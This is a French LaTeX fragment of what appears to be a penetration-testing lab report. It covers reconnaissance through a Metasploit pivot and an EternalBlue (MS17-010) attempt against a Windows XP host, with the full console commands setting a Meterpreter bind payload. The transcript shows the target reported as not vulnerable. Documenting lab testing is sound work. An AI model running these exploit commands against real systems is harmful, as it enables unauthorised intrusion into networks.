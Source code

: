 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
	\textbf{Prochaine étape :} Tenter l'exploitation de Windows XP via des vulnérabilités SMB historiques.
	
\chapter{Phase 4 : Reconnaissance Latérale}

\section{Reconnaissance via Pivot}

Grâce au pivot Metasploit configuré au Chapitre 5, nous pouvons désormais 
effectuer une reconnaissance approfondie du réseau LAN en utilisant les 
modules auxiliaires de Metasploit. Tous les scans suivants transitent 
via la session Meterpreter sur Ubuntu DMZ.

\section{Test de Vulnérabilités Historiques}

Windows XP est historiquement vulnérable à plusieurs exploits critiques. Nous testons les plus célèbres.

\subsection{MS17-010 (EternalBlue)}

\textbf{Contexte :} EternalBlue est un exploit développé par la NSA et divulgué par le groupe Shadow Brokers. Il cible une vulnérabilité dans l'implémentation SMBv1 de Windows.

\begin{lstlisting}[caption=Test MS17-010 via Metasploit]
	[msf](Jobs:0 Agents:1) >> use exploit/windows/smb/ms17_010_eternalblue
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> set RHOSTS 192.168.20.50
	RHOSTS => 192.168.20.50
	
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> set PAYLOAD windows/x64/meterpreter/bind_tcp
	PAYLOAD => windows/x64/meterpreter/bind_tcp
	
	[msf](Jobs:0 Agents:1) exploit(windows/smb/ms17_010_eternalblue) >> exploit
	
	[*] 192.168.20.50:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
	[-] 192.168.20.50:445 - The target is not vulnerable.
	[*] Started bind TCP handler against 192.168.20.50:4444
	[*] Exploit completed, but no session was created.
\end{lstlisting}
\end{document}
